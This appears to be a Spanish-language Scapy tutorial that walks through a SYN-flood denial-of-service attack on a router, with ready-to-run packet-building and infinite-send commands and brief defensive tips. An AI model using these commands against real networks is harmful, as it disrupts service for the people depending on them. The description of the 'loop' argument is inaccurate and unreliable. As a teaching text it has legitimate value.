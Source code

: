 ### Scapy 

Scapy es una poderosa herramienta de manipulación de paquetes de red que se puede utilizar para lanzar ataques DoS y DDoS. Scapy permite a los usuarios crear, enviar y recibir paquetes de red personalizados, lo que lo hace ideal para la creación de ataques de denegación de servicio.

```bash
sudo scapy (password: 123123)
```

#### Comandos básicos de Scapy

- Visualizar la información de los protocolos soportados: `ls()`
- Visualizar la información de un protocolo específico: `ls(protocolo)`
- Visualizar funcionalidades de Scapy: `lsc()`
- Averiguar que dispositivos están conectados a la red: `arping()`

## Ejemplo de ataque DoS y DDoS Utilizando Scapy

Enviaremos peticiones de conexión a un router desde una dirección IP de origen falsa, lo que provocará que el router no podroa identificar a quien responder y se inundara con peticiones SYN. Colapsando el router y dejando inaccesible la red.

1. Crear la estructura del paquete que se desea enviar al router:
```bash
a=IP(src="192.168.1.77",dst="192.168.1.1")/TCP(sport=RandShort(),dport=80,flags="S")
```
Argumentos:
- `IP`: Dirección IP de origen y destino.
- `src`: Dirección IP de origen.
- `dst`: Dirección IP de destino.
- `sport`: Puerto de origen.
- `dport`: Puerto de destino.
- `flags`: Bandera que indica el tipo de paquete (S: SYN).

2. Luego de haber creado la petición, se debe diseñar el bucle que enviará las peticiones al router:
```bash
send(a,loop=1)
```

Argumentos:
- `a`: Paquete a enviar.
- `loop`: Número de veces que se enviará el paquete (0: infinito).	

Para detener el ataque, se debe presionar `Ctrl + d`.


## ¿Cómo protegerse de los ataques DoS y DDoS?

- Lo mas importante es contar con reglas en el router y firewall que limiten el número de conexiones por segundo que se pueden realizar desde una dirección IP. 
- Detectar y bloquear las direcciones IP que estén realizando un número excesivo de conexiones.